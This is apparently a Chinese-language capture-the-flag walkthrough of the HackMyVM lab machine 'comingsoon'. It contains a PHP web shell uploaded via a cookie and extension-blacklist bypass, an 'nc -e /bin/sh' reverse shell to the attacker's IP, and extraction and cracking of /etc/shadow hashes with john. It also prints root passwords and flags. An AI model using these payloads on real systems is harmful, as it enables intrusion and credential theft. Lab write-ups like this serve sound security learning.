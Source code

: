 刚开始没有IP
单用户修改密码也需要输入用户密码，不能改
/boot/grub/grub.cfg配置文件下
```c

```
看了wp，才知道root用户密码ToyStory3，进去后也没有dhclient命令获取ip
只能换一种方式，编辑vim /etc/network/interface
[Linux(Debian)网卡设置\_debian auto eth0-CSDN博客](https://blog.csdn.net/willhuo/article/details/79610260)

|   |   |   |
|---|---|---|
|comingsoon|easy|前端分析、文件上传绕过、提示信息利用、shadow 爆破、hydra 使用、|

# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.133/24
┌──(kali㉿kali)-[~]
└─$ fping -aqg 192.168.44.0/24
```
# 服务探测
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.137
```
只有22和80
# 目录爆破
```C
http://192.168.44.137/notes.txt
Dave,

Last few jobs to do...

Set ssh to use keys only (passphrase same as the password)

Just need to sort the images out:
resize and scp them or using the built-in image uploader.

Test the backups and delete anything not needed.

Apply an https certificate.

Cheers,

Webdev

翻译

戴夫，

最后几项工作要做...

将 ssh 设置为仅使用密钥（密码与密码相同）

只需要对图像进行排序：
调整大小并对其进行 scp 或使用内置图像上传器。

测试备份并删除不需要的任何内容。

申请https证书。

干杯，

网络开发者


http://192.168.44.137/index.php
右键检查源码看到提示

 Upload images link if EnableUploader set 
 翻译
 如果设置了 EnableUploader，则上传图像链接

```


检查当前页面的cookie信息，发现base64编码的东西
```css
RW5hYmxlVXBsb2FkZXIK 
ZmFsc2UK
解码后
EnableUploader
false
```

综上所述，把false改成true编码后`dHJ1ZQ==`，就会出现文件上传的入口
http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
burp抓包,这里后端使用黑名单限制了php后缀的上传，尝试使用phtml后缀被解析成功。

```
POST /5df03f95b4ff4f4b5dabe53a5a1e15d7.php HTTP/1.1
Host: 192.168.44.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30594177056923721121592264423
Content-Length: 379
Origin: http://192.168.44.137
Connection: close
Referer: http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
Cookie: RW5hYmxlVXBsb2FkZXIK=dHJ1ZQ==
Upgrade-Insecure-Requests: 1

-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="fileToUpload"; filename="1.phtml"
Content-Type: image/png
<?php system($_GET['cmd']);?>
-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------30594177056923721121592264423--
```

命令执行
```c
http://192.168.44.137/assets/img/1.phtml?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# nc反弹shell
```css
http://192.168.44.137/assets/img/1.phtml?cmd=nc -e /bin/sh 192.168.44.128 9001
```

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
或者
script /dev/null -c bash
export TERM=xterm
Ctrl+z快捷键
stty raw -echo;fg
reset
```

# 提权
目前看啥都没权限
只有/var/backups/目录下有个备份文件backup.tar.gz有用
```css
www-data@comingsoon:/var/backups$ cp backup.tar.gz /tmp
www-data@comingsoon:/tmp$ tar -zxvf backup.tar.gz
www-data@comingsoon:/tmp$ cat etc/shadow
```

```c
root:$y$j9T$/E0VUDL7uS9RsrvwmGcOH0$LEB/7ERUX9bkm646n3v3RJBxttSVWmTBvs2tUjKe9I6:18976:0:99999:7:::
scpuser:$y$j9T$rVt3bxjp6uYKKYJbYU2Zq0$Ysn02LrCwTUB7iQdRiROO7/WQi8JSGtwLZllR54iX0.:18976:0:99999:7:::
```
爆破
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ john -w=../rockyou.txt comningsoon --format=crypt 

tigger           (scpuser)  
```
切换用户
```c
www-data@comingsoon:/home$ su scpuser //tigger

scpuser@comingsoon:~$ cat user.txt
cat user.txt
HMV{user:comingsoon.hmv:58842fc1a7}

```
查看老密码
```c
scpuser@comingsoon:~$ cat .oldpasswords
cat .oldpasswords
Previous root passwords just incase they are needed for a backup\restore

Incredibles2
Paddington2
BigHero6
101Dalmations

```
参考这个链接才知道老密码的用处,原来密码是带有数字的动画电影名字：

https://28right.blogspot.com/2021/12/hackmyvm-comingsoon.html
生成单词列表
```css
curl https://www.rottentomatoes.com/top/bestofrt/top_100_animation_movies/|grep ")</a>"|sed 's/[(].*$//'|tr -d ' '> wordlist
```

应该上面的链接已经失效了，也知道思路了。这里就直接拿别人的密码登录了。

```
root:ToyStory3
```

```c
root@comingsoon:~# cat root.txt
cat root.txt
HMV{root:comingsoon.hmv:2339dc81ca}

```